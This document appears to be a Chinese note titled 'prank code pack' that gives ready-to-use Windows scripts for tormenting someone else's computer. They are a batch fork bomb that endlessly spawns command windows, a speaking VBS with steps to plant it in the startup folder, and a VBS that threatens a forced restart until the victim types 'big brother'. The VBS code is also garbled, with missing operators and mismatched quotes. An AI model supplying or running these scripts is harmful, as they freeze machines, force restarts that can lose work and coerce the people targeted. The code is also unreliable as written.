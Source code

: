 - 整人代码包
	- xxx.bat
	  ```  
	  :start
	  start cmd
	  goto start
	  ```
	-
	- ```
	  CreateObject("SAPI.SpVoice").Speak"输入自己想说的话"
	  ```
	  保存文档后将后缀改为.vbs
		- 开机运行：
		  win+r，输入shell:startup
		  把文档复制进去
	-
	- 新建文档，改为.vbs
	  ```
	  on error resume next
	  dim WSHshellA
	  set WSHshellA wscript.createobject("wscript.shell")
	  WSHshellA.run"cmd.exe/c shutdown-r-t180-c"叫我大哥，快！不叫就让你电脑关机！不信你试试。""，0,true
	  dim a
	  do while(a<>"大哥)
	  a=inputbox(叫我大哥，就不关机，快说吧"大哥"”"，"说不说"，"，8000,7000)
	  msgbox chr(13)chr(13)chr(13)a,0,"MsgBox"
	  loop
	  msgbox chr(13)+chr(13)+chr(13)+"早说就行了嘛"
	  dim WSHshell
	  set WSHshell wscript.createobject("wscript.shell")
	  WSHshell.run "cmd.exe /c shutdown -a",0 ,true
	  msgbox chr(13)+chr(13)+chr(13)+"哈哈哈哈，好乖"
	  ```
	- 保存，双击运行
	- 如果显示错误，可以点击另存为，将文档编码改为ANSI
-